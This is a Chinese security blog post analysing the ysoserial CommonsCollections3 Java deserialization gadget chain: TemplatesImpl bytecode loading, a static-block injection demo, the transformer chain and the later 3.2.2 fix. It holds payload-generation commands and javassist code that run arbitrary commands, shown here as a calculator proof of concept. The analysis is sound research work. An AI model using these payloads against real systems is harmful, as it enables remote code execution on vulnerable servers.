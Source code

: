```yaml
---
title: Java反序列化利用链挖掘之CommonsCollections3
tags: 
  - java
categories: notes
date: 2019-10-28 16:20:06
---
```


## 0x00 前言

前面分析了ysoserial的CommonsCollections1，熟悉了一点Java反序列化。本文将继续分析ysoserial的利用，今天的主角是CommonsCollections3.

<!-- more -->

## 0x01 环境准备

首先由于override的原因，环境使用的是jdk7u80。利用ysoserial生成payload，并载入调试。

```bash
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections3 "open /System/Applications/Calculator.app" > commonscollections3.ser
```

## 0x02 基础知识

在分析开始前，先补充一下基础知识

```java
public class StaticBlockTest {
}
```

```java
public class Cracker {

    public static byte[] generate(){
        try {
            String code = "{java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");}";
            ClassPool pool = ClassPool.getDefault();
            CtClass clazz = pool.get(StaticBlockTest.class.getName());
            clazz.setName("demo");
            clazz.makeClassInitializer().insertAfter(code);
            return clazz.toBytecode();
        // ...
    }
    public static void main(String[] args) {
        byte[] clazz = generate();
        DefiningClassLoader loader = new DefiningClassLoader();
        Class cls = loader.defineClass("demo",clazz);// 从字节数组中恢复类
        try {
            cls.newInstance(); // 实例化该类时会自动调用静态块内的代码
        } 
      	// ...
    }
}
```

通过上面这个例子，我们可以获得的知识点主要为两点：

​		a. defineClass可以从byte数组中恢复一个Class

​       b. static initializer在类载入时将自动执行（静态块内的代码）

Java中动态调用的另一种方式是`defineClass`

![image-20191025190617899](assets/java-deserialized-commonscollections3-20191028/image-20191025190617899.png)

Java提供了ClassLoader从bytes数组中还原Class的方法，defineClass函数就是完成这一过程的函数。

理论上，如果代码中使用了这种方式，且byte数据的内容可控，我们可以执行任意Java代码。为什么呢？

这里就用到了Java类的另一个特性，static block在类载入时自动执行块内的代码。我们可以通过javassist对静态块注入任意代码，该类被恢复并载入时会调用注入的代码，后文的利用链主要就是用到了这两个知识点。

## 0x03 利用链分析

### 1. 前景回顾

这里选择CommonsCollections3是因为他的前半段触发的利用链跟CommonsCollections1是一样的，所以这里只需要分析后半段命令执行的构造即可。回顾一下前半段利用链

```
sun.reflect.annotation.AnnotationInvocationHandler.readObject()
	-> memberValues.entrySet()
	-> AnnotationInvocationHandler.invoke()
	-> memberValues.get() => LazyMap.get()
	-> factory.transform() => ChainedTransformer.transform()
	-> iTransformers[].transform()
```

CommonsCollections1中ChainedTransformer.transform()会循环调用iTransformers数组里的对象的transform函数。CommonsCollections1用的是InvokerTransformer的transform，因为该函数实现了反射调用任意类的功能。那么除了使用InvokerTransformer还有没有其他的方法？答案当然是肯定的！

### 2. 新的命令执行利用链

来看一下CommonsCollections3的payloads构造

```java
Object templatesImpl = Gadgets.createTemplatesImpl(command);

// real chain for after setup
final Transformer[] transformers = new Transformer[] {
      new ConstantTransformer(TrAXFilter.class),
      new InstantiateTransformer(
            new Class[] { Templates.class },
            new Object[] { templatesImpl } )};
// 后续类似 省略
```

`ConstantTransformer`上一篇已经说过了，其`transform`会返回构造时的对象，这里就是`TrAXFilter.class`对象。

我们重点来看`InstaniateTransformer`的`transform`函数

![image-20191025215544053](assets/java-deserialized-commonscollections3-20191028/image-20191025215544053.png)

简单来看，该函数对输入的input（这里就是TrAXFilter.class）做实例化的操作。这里看起来，其实有点像php中找对应的__constructs，在Java里我们就去找构造函数里做了危险操作的class。

来看一下`TrAXFilter`类的构造函数

![image-20191025215631300](assets/java-deserialized-commonscollections3-20191028/image-20191025215631300.png)

这里的`templates`就是上面exp中构造的`templatesImpl`.

继续看TransformerImpl的newTransformer函数

`org.apache.xalan.internal.xsltc.trax.TemplatesImpl.java:newTransformer:481`

![image-20191025215358907](assets/java-deserialized-commonscollections3-20191028/image-20191025215358907.png)

继续看`getTransletInstance`

![image-20191025215202858](assets/java-deserialized-commonscollections3-20191028/image-20191025215202858.png)

再继续`defineTransletClasses`

![image-20191025215052940](assets/java-deserialized-commonscollections3-20191028/image-20191025215052940.png)

看到这里是不是有点熟悉，没错，这里用到了0x02中的两个基础知识。`defineTransletClasses`还原出类，`getTransletInstance`进行实例化。那么我们只需要构造一个合适的`_bytecodes`即可执行任意Java代码。

下面补充一下，在构造exp时需要满足的条件：

1. 植入的`templates`为`TransformerImpl`类，从而调用后续的`newTransformer`函数
2. 植入的`templates`实例，`_name`不为`null`,`_class`为`null`
3. 植入的`templates`实例，`_bytecodes`不为`null`,`_tfactory`为`TransformerFactoryImpl`对象
4. 植入的`templates._bytecodes`数组，其最终还原的对象父类为`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`

那么怎么才能满足这些条件呢？这里神奇的javassist又要上场啦！

来看一下ysoserial的操作

![image-20191028155646352](assets/java-deserialized-commonscollections3-20191028/image-20191028155646352.png)

上面的代码不做省略，我们应该好好学习一下javassist的基本操作，代码可以在`Gadgets.createTemplatesImpl`找到！

这里框了两个框，第一个框是通过javassist注入静态块，静态块的内容就是我们需要执行的命令。第二个框是ysoserail框架自己封装的一个反射工具类，通过这个类我们可以动态的操作`templates`实例的类属性内容。这里主要就是在满足上述的几个条件。

这里有一点可以提一下，该利用链的作者在填充`_bytecodes`时，额外填充了一个无关的类(上图第130行)。这个类主要用于满足`_auxClasses`,让这个`getTransletInstance`函数能正常走完。

经过上面的分析，其实我们可以知道`getTransletInstance`的第408行，对`_class`做实例化时我们想要执行的代码就已经执行了。所以这里额外填充的类其实是可有可无的。

## 0x04 总结

到这里，整一个CommonsCollections3就分析结束了。

CommonsCollections3主要利用了可控的byte数组从defineClass函数中还原出恶意构造的Class。并且在后续的调用中，这个Class被注入到内存中，从而执行了注入的静态块的代码，实现了任意Java代码执行。

到这篇为止，我们已经知道了两种Java的任意代码执行的构造方式

1. 利用可控的反射机制。具体的Class、Method等均可控时，利用反射机制，可以构造出任意的类调用、类函数调用
2. 利用可控的defineClass函数的byte数组。构造恶意的Class字节码数组，常于静态块注入恶意代码

### 20191104 补充

前面的分析并没有提到3.2.2版本发生了啥事，导致了利用链的失效，这里简单提一下

![image-20191104193635375](assets/study-java-deserialized-commonscollections3-3-20191028/image-20191104193635375.png)

3.2.2版本对InvokerTransformer增加了readObject函数，并且做了是否允许反序列化的检查，在`FunctorUtils.checkUnsafeSerialization`函数内。

![image-20191104194440916](assets/study-java-deserialized-commonscollections3-3-20191028/image-20191104194440916.png)

这里UNSAFE_SERIALIZABLE_PROPERTY的值默认为false，如果需要为true，需要在运行时指定。

所以在使用InvokerTransformer作为反序列化利用链的一部分时，会throw一个exception。除了InvokerTransformer类外，还有CloneTransformer, ForClosure, InstantiateFactory, InstantiateTransformer, InvokerTransformer, 
PrototypeCloneFactory, PrototypeSerializationFactory, WhileClosure。所以在3.2.2版本以上，基本上利用链都已经废了。

当然，这种方法治标不治本，如果可以在这些类以外，构造一个利用链同样可以达到前面的效果。